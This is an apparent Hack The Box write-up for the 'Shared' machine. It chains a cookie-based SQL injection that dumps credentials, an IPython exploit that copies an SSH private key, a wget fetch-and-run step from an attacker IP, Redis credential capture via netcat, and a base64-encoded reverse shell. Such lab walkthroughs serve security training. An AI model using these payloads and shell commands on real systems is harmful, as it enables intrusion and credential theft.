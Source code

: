 Hack the box:Shared

***Enumeration***

Nmap scan
```
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp  open  http     nginx 1.18.0
443/tcp open  ssl/http nginx 1.18
```
Domain && subdomain

**http://shared.htb**

**http://checkout.shared.htb**

vuln in cookie

cookie **"custom_cart=%7B%2253GG2EF8%22%3A%223%22%7D"**

decode cookie value **"custom_cart={"53GG2EF8":"3"}"**

***FootHold***

union based blind sql injection

referal **https://infosecwriteups.com/healing-blind-injections-df30b9e0e06f**


payload
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(user()),3-- -":"3"}
```
database username **checkout@localhost**

Database Name Enumeration
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA),3-- -":"3"}
```
**information_schema,checkout**

Tables from checkout;
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(TABLE_NAME) from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA = 'checkout'),3-- -":"3"}
```
**user,product**

Columns from user;
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(TABLE_NAME,COLUMN_NAME) from INFORMATION_SCHEMA.COlUMNS where TABLE_SCHEMA = 'checkout'),3-- -":"3"}
```
**user.id,user.username,user.password,product.id,product.code,prodcut.price**

username and password from user
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(username) from checkout.user),3-- -":"3"}
```
```
{"53GG2EF8'AND 1=2 UNION SELECT 1,(select group_concat(password) from checkout.user),3-- -":"3"}
```
**james_mason:fc895d4eddc2fc12f995e18c865cf273**

crack the hash using hashcat

ssh cred => james_mason:Soleil101

connect to SSH as james_mason

***Low privilege user james_mason to dan_smith***

their is a cronjob running to use ipython 

recent cve of ipython **https://github.com/advisories/GHSA-pq7m-3gw7-gq5x**

for exploiting the ipython we create a shell script to automate some purpose

os.py
```python 
import os

os.system("cat /home/dan_smith/.ssh/id_rsa > /tmp/id_rsa")

```
```bash
#!/usr/bin/bash

mkdir -p /opt/scripts_review/profile_default
chmod 777 /opt/scripts_review/profile_default
mkdir -p /opt/scripts_review/profile_default/startup
chmod 777 /opt/scripts_review/profile_default/startup
wget http://10.10.16.19/os.py -O /opt/scripts_review/profile_default/startup/os.py
chmod 777 /opt/scripts_review/profile_default/startup/os.py
```
```
wget http://10.10.16.19/script.sh && chmod +x script.sh && bash script.sh
```

***Privilege escalation***

The server has running redis as root but we cannot connect the server without creds so we need to
find the cred to access the server

let's check the user's and groups related files
```
find / -group sysadmin 2>/dev/null
```
we found a intersting excutable file in /usr/local/bin

It is a excutable binary to connect the redis server as localy and automaticly login using the auth creds and run a simple redis command info and get the result to us

from their we know in the excutable has the auth cred. copy the binary to our local machine
start anlayzing it
```
scp -i file.key dan_smith@ip:/usr/local/bin/redis_connector_dev redis_connector_dev
```
run the binary on localy and setup a netcat listion on port 6379
```
nc -lv localhost 9379
```
after runing the binary we get the connection on netcat and got the creds

redis => **"auth:F2WHqJUz2WEz=Gqq"**

after gain access the redis server using the auth creds we create a custom module for runing the os commands
referal https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis

**Exploit**
```
auth F2WHqJUz2WEz=Gqq

MODULE  LOAD /dev/shm/redis/module.so

module list

system.exec "cat /root/root"

system.exec "echo -n 'YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE2LjEwLzkwMDEgICAwPiYxIA==' | base64 -d |bash"
```